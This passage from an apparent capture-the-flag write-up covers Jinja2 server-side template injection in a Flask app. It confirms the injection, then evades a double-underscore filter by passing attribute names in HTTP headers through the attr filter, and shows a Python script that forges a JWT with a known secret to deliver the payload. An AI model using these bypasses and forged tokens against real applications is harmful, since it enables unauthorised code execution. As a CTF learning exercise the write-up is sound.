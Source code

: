 which gives us:
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>gg ez</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>

<div class="container">

    <div class="form-container">
    <h1 class="welcome-text">Welcome, 49</h1>
    <p>This is my first app! I'm not much a web developer though, so there isn't much to do here, sorry!</p>

    <form action="/logout" method="post">
        <input type="submit" value="Logout">
    </form>

    </div>

</div>

</body>
</html>
```

We can then try `{{7*'7}}` which gives us `7777777`, confirming that it is python and it is probably jinja2

The 'normal' route is to do `().__class__.__mro__[index]` to get `<class 'object'>`, then `.__subclasses__[index]` to access everything else.

However, the double underscore `__` is blocked.

"Normally", you can bypass this with [request.args](https://0day.work/jinja2-template-injection-filter-bypasses/) but when we try sending url parameters, we get *"Whoa there bucko, did you forget I'm not a web developer? I don't know how to handle parameters yet!"*.

We have no choice but to use headers. However it seems like accessing `request.headers` was blocked. In fact, it seems like we have to do the roundabout `a|b` jinja filtering method to get what we want. 

There are three headers that I found so far that are accessible via [request](https://tedboy.github.io/flask/generated/generated/flask.Request.html) that allows us to bypass, `request.referrer`, `request.pragma`, and `request.mimetype` (for some reason the string `"content_type"` was also blocked so we use `mimetype` instead)

```py
import requests
import jwt
import html

mro = "(request|attr(request.pragma)|attr(request.mimetype))" # request.__class__.__mro__

payload = "{{" + mro + "}}"

headers = {
    "Pragma": "__class__",
    "Content-Type": "__mro__",
}

auth = jwt.encode({"username": payload}, "torontobluejays", algorithm="HS256")
```
